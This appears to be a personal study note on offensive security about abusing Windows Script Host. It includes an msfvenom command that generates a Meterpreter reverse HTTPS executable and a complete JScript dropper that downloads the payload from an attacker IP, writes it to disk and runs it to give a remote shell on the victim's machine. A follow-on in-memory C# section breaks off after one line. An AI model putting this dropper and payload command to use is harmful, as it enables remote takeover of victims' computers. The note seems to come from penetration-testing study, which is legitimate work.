 ```yaml
---
creation date: December 21st 2022
last modified date: December 21st 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Windows Script Host]]  
___

## Description:  
Look for default apps in windows settings, if the default application for .js files is Windows-Based Script host (should be by default), then our code should run automatically after a double-click.

### Jscript
use msfvenom to generate a 64-bit Meterpreter reverse HTTPS executable named met.exe:
```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o met.exe
```
Now create the dropper code (save as a .js):
```
var url = "http://192.168.119.120/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{ 
	var Stream = WScript.CreateObject('ADODB.Stream');

	Stream.Open();
	Stream.Type = 1; // adTypeBinary
	Stream.Write(Object.ResponseBody);
	Stream.Position = 0;

	Stream.SaveToFile("met.exe", 2);
	Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```
After saving this code as a .js file, all we need to do is double-click it to get a 64-bit shell from the victim’s machine to our awaiting multi/handler listener.

### Using Jscript and C sharp
To run our payload completely from memory

Launch Visual Studio and choose Create a new project. 



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 21st 2022 (05:46 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
